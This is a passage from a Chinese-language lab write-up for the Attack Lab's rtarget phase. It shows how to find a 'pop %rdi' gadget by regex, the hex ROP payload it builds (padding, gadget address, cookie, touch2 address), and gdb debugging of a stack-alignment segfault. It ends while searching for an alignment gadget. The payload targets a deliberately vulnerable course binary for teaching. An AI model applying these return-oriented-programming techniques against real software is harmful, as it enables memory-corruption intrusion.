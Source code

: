 ```text
5[89a-f](\s+\t.+\n.+:\t)c3
```

> 调整第一个中括号可以精确匹配寄存器

在文件末尾找到了一个 `5f c3`，对应 `popq %rdi` ，直接一步到位！

```text
  403912:	41 5f                	pop    %r15
  403914:	c3
```

从而我们找到了所需 gadget 地址：`0x403913`

于是我们可以开始构造：

1. `0x00403913`：第一个 gadget
2. `0x11a67610`：Cookie
3. `0x00401ea8`：touch2 函数起始点，**注意可能和之前 ctarget 的 touch2 函数起始点不一样了**

直接构造 `p4.txt`：

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
13 39 40 00 00 00 00 00
10 76 a6 11 00 00 00 00
a8 1e 40 00 00 00 00 00
```

运行

```bash
./hex2raw < p4.txt > p4a.txt
./rtarget -i p4a.txt
```

发现报错段错误，通过 gdb 检查发现我们确实修改了 `%rdi` 寄存器的信息，进入了 touch2 函数，甚至都打印了成功信息！

![Cleanshot-2023-10-18-at-11.29.12@2x](https://cdn.arthals.ink/bed/2024/01/Cleanshot-2023-10-18-at-11.29.12@2x-4bb45fc722f0e16d126b392b70e5bb5b.png)

![Cleanshot-2023-10-18-at-11.29.56@2x](https://cdn.arthals.ink/bed/2024/01/Cleanshot-2023-10-18-at-11.29.56@2x-10b41f34decfd1672a0c99ac43ab1c0d.png)

那为什么还是不行呢？这时我们回忆起 phase2 中说明了我们需要完成栈指针的 16 字节对齐，通过 gdb 调试，我们发现我们在执行遇到段错误前，我们的栈指针是 `0x7fffbc3a09d8` 这不是一个 16 字节对齐的数（最后一位是 0 才对）：

![Cleanshot-2023-10-18-at-11.48.53@2x](https://cdn.arthals.ink/bed/2024/01/Cleanshot-2023-10-18-at-11.48.53@2x-f0f8d786bd6ff1127f796baaa40033ca.png)

所以我们类似地，在 `rtarget.s` 中检索一些 `nop` 指令以对齐，我选择的是 `20 c0` ，直接检索找到

```asm
000000000040223c <setval_254>:
  40223c:	f3 0f 1e fa          	endbr64
  402240:	c7 07 c9 ca 20 c0    	movl   $0xc020cac9,(%rdi)
  402246:	c3                   	ret
```
